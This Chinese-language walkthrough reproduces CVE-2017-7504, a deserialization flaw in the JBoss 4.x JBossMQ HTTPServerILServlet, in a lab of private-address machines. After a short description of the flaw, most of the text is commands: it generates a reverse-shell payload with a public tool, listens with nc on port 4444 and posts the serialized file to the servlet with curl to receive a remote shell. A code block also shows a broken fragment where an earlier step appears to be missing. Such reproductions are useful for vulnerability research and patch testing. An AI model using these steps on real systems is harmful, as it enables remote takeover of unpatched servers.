


# （CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Jboss/（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞.html](http://book.iwonder.run/0day/Jboss/（CVE-2017-7504）JBoss 4.x JBossMQ JMS 反序列化漏洞.html)

## 一、漏洞简介

JBoss AS 4.x 及之前版本中，JbossMQ 实现过程的 JMS over HTTP Invocation Layer 的 HTTPServerILServlet.java 文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、漏洞影响

JBoss AS 4.x 及之前版本

## 三、复现过程

win7 一台，ip 为 172.26.1.127（靶机，安装了 java 环境）

kali 一台，ip 为 192.168.1.192(攻击机)

输入[http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet](http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet)，如果显示下图，则可能存在漏洞



进入 kali 攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
2 继续执行命令:
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP 是攻击机 ip,4444 是要监听的端口) 
```

新界面开启 nc 准备接收反弹过来的 shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个 ReverseShellCommonsCollectionsHashMap.ser 文件，然后我们 curl 就能反弹 shell 了，执行命令:

```
curl http://172.26.1.127:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```


回到 nc 界面，发现 shell 已经反弹回来了



